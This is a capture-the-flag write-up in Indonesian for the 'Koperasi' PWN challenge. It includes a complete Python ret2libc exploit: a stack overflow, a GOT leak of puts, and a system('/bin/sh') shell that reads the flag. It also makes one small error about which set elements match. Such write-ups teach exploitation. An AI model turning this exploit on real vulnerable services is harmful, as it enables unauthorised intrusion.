

# Koperasi — Writeup

**Category    :** PWN  
**Difficulty  :** Medium  
**File        :** koperasi.zip 
**Connection  :** 103.127.98.249 5002  
**Description :**

Sistem Koperasi Desa Suka Maju baru saja direvolusi menjadi digital. Namun, Kepala Desa mencium aroma busuk: kas mereka terus menyusut padahal tidak ada laporan kerugian! Diduga ada celah matematis yang memungkinkan peretas menggandakan uang mereka dari udara kosong. Tugasmu adalah menjadi auditor keamanan dadakan dan menguras kas tersebut untuk membuktikan kebobrokannya! nc 103.127.98.249 5002

## Solve

Perama kita coba tes akses dahulu dengan `nc 103.127.98.249 5002` 



Ternyata hasilnya ada beberapa menu, kita coba `file koperasi`

```
koperasi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7150febc24e79c6183e7b394f6e005c8950bed05, for GNU/Linux 3.2.0, stripped
```

Hasilnya ada `binary Linux 64 Bit`, `dynamically linked`, and `stripped`. Sekarang kita coba `checksec --file=koperasi` untuk melihat proteksi nya

```
[!] Could not populate PLT: No module named 'unicorn'
[*] '/Users/ridwankusumahani/tools_cyber/SCTF/pwn/koperasi/koperasi'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

Hasilnya `No Pie` artinya alamat binary tetap dan bisa kita `ROP`, `No Canary` artinya stack overflow lebih mudah di exploit dan `Partial RELRO` artinya `GOT` kita bisa pakai untuk leak. Asumsi awal ku kalau ada `buffer overflow`, exploit yang cocok kemungkinan besar adalah `ROP` / `ret2libc`.

Pada menu 1, program terdapat 2 himpunan

```
--- Verifikasi Keanggotaan Koperasi ---
Diketahui Himpunan Warga (W) = {21, 6, 34, 11, 41}
Diketahui Himpunan Petani (P) = {77, 11, 60, 6, 66}
Sebutkan dua elemen dari himpunan W ∩ P (pisahkan dengan spasi):
```

Elemen yang sama adalah `8` dan `13`, namun karna setiap diulang koneksi ke target nya itu angka selalu berubah maka kita bisa pakai fungsi

```
def solve_set_line(w, p):
    inter = sorted(set(w) & set(p))
    return inter
```

Sekarang kita coba menu 2,

```
Menu Utama:
1. Verifikasi Anggota (Himpunan)
2. Pencairan Saldo (Polinomial)
3. Beli Pupuk (Toko)
4. Keluar
Pilih menu: 2

--- Sistem Pencairan Saldo Koperasi ---
Selesaikan persamaan polinomial berikut untuk otorisasi:
P(x) = x^3 - 23x^2 + 160x - 336 = 0
Masukkan salah satu nilai x (akar polinomial) yang memenuhi:
```

Jawabannya 4, lalu kita coba akses menu ke 3

```
Menu Utama:
1. Verifikasi Anggota (Himpunan)
2. Pencairan Saldo (Polinomial)
3. Beli Pupuk (Toko)
4. Keluar
Pilih menu: 3

--- Toko Pupuk Koperasi ---
Pupuk NPK Mutiara 50kg - Harga: Rp 500.000
Masukkan alamat pengiriman pupuk (max 40 karakter):
>
```

Kita coba masukan offset 56 byte

```
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[+] Pesanan diproses! Pupuk akan dikirim ke: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Ternyata crash karna kembali ke terminal. Maka ku coba dengan `ROPgadget --binary ./koperasi | grep "pop rdi"` dan `ROPgadget --binary ./koperasi | grep ": ret"`

```
0x00000000004011b5 : mov dl, byte ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; ret
0x00000000004011b8 : mov ebp, esp ; pop rdi ; ret
0x00000000004011b7 : mov rbp, rsp ; pop rdi ; ret
0x00000000004011ba : pop rdi ; ret
0x00000000004011b6 : push rbp ; mov rbp, rsp ; pop rdi ; ret
0x0000000000401016 : ret
0x0000000000401042 : ret 0x2f
0x0000000000401579 : ret 0x458b
0x00000000004015ff : ret 0x7d83
0x00000000004015d9 : ret 0x8941
0x0000000000401259 : ret 0xd089
0x00000000004015d4 : ret 0xdaf7
0x000000000040124f : ret 0xfac1
0x00000000004014f5 : ret 0xfad1
0x0000000000401691 : retf
0x0000000000401022 : retf 0x2f
0x0000000000401266 : retf 0x428d
```

Lalu kita coba `objdump -d ./koperasi | grep -B40 -A80 "gets@plt"`, kita ambil yang terpenting yaitu

```
4010e4: 48 c7 c7 52 17 40 00          movq $0x401752, %rdi         # imm = 0x401752
  4010eb: ff 15 e7 2e 00 00             callq *0x2ee7(%rip)           # 0x403fd8
```

Artinya di `_start`, argumen pertama untuk `__libc_start_main` adalah alamat main. Maka `MAIN = 0x401752`. Aku coba buat exploitnya

exploit_koperasi.py
```
import re
import socket
import struct
import time

HOST = "103.127.98.249"
PORT = 5002

BUFFER_SIZE = 56

POP_RDI = 0x4011BA
RET = 0x401016
MAIN = 0x401752

PUTS_PLT = 0x401030
PUTS_GOT = 0x404000

PUTS_OFFSET = 0x87BE0
SYSTEM_OFFSET = 0x58750
BINSH_OFFSET = 0x1CB42F


def pack64(value):
    return struct.pack("<Q", value)


def recv_until(sock, marker, timeout=3):
    deadline = time.time() + timeout
    buffer = b""

    while marker.encode() not in buffer and time.time() < deadline:
        try:
            chunk = sock.recv(4096)
            if not chunk:
                break
            buffer += chunk
        except socket.timeout:
            pass

    return buffer


def recv_all(sock, timeout=1):
    deadline = time.time() + timeout
    buffer = b""

    while time.time() < deadline:
        try:
            chunk = sock.recv(4096)
            if not chunk:
                break
            buffer += chunk
        except socket.timeout:
            pass

    return buffer


def solve_menu(sock):
    recv_until(sock, "Pilih menu:")
    sock.sendall(b"1\n")

    data = recv_until(sock, "pisahkan dengan spasi):").decode(
        "latin1",
        "replace",
    )

    warga = list(
        map(
            int,
            re.search(r"W\) = \{([^}]*)\}", data).group(1).split(", "),
        )
    )

    petani = list(
        map(
            int,
            re.search(r"P\) = \{([^}]*)\}", data).group(1).split(", "),
        )
    )

    answer = " ".join(
        map(str, [value for value in warga if value in petani])
    )

    sock.sendall(answer.encode() + b"\n")

    recv_until(sock, "Pilih menu:")
    sock.sendall(b"2\n")

    data = recv_until(sock, "yang memenuhi:").decode(
        "latin1",
        "replace",
    )

    a, b, c = map(
        int,
        re.search(
            r"P\(x\) = x\^3 - (\d+)x\^2 \+ (\d+)x - (\d+) = 0",
            data,
        ).groups(),
    )

    root = next(
        x
        for x in range(-1000, 1001)
        if x**3 - a * x * x + b * x - c == 0
    )

    sock.sendall(f"{root}\n".encode())

    recv_until(sock, "Pilih menu:")
    sock.sendall(b"3\n")
    recv_until(sock, ">")


def leak_libc(sock):
    marker = b"A" * BUFFER_SIZE + b"\xba\x11@\n"

    payload = (
        b"A" * BUFFER_SIZE
        + pack64(POP_RDI)
        + pack64(PUTS_GOT)
        + pack64(PUTS_PLT)
        + pack64(MAIN)
    )

    sock.sendall(payload + b"\n")

    response = recv_until(sock, "Pilih menu:", timeout=2.5)

    leaked = response.split(marker, 1)[1].split(b"\n", 1)[0]
    puts_addr = int.from_bytes(leaked.ljust(8, b"\x00"), "little")

    libc_base = puts_addr - PUTS_OFFSET

    return {
        "puts": puts_addr,
        "base": libc_base,
        "system": libc_base + SYSTEM_OFFSET,
        "binsh": libc_base + BINSH_OFFSET,
    }


def spawn_shell(sock, system_addr, binsh_addr):
    payload = (
        b"A" * BUFFER_SIZE
        + pack64(POP_RDI)
        + pack64(binsh_addr)
        + pack64(RET)
        + pack64(system_addr)
    )

    sock.sendall(payload + b"\n")

    time.sleep(0.3)

    sock.sendall(b"cat flag.txt\n")

    print(
        recv_all(sock, timeout=2).decode(
            "latin1",
            "replace",
        )
    )


def main():
    sock = socket.create_connection((HOST, PORT), timeout=5)
    sock.settimeout(0.2)

    solve_menu(sock)

    libc = leak_libc(sock)

    print(f"puts    : {hex(libc['puts'])}")
    print(f"base    : {hex(libc['base'])}")
    print(f"system  : {hex(libc['system'])}")
    print(f"/bin/sh : {hex(libc['binsh'])}")

    solve_menu(sock)

    spawn_shell(
        sock,
        libc["system"],
        libc["binsh"],
    )

    sock.close()


if __name__ == "__main__":
    main()
```

output

```
puts    : 0x7f572bf23be0
base    : 0x7f572be9c000
system  : 0x7f572bef4750
/bin/sh : 0x7f572c06742f
[+] Pesanan diproses! Pupuk akan dikirim ke: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAº@
SCTF26{p0l1n0m14l_d4n_b0f_b1k1n_k0p3r4s1_j3b0l}
```

## Flag

```text
SCTF26{p0l1n0m14l_d4n_b0f_b1k1n_k0p3r4s1_j3b0l}
```
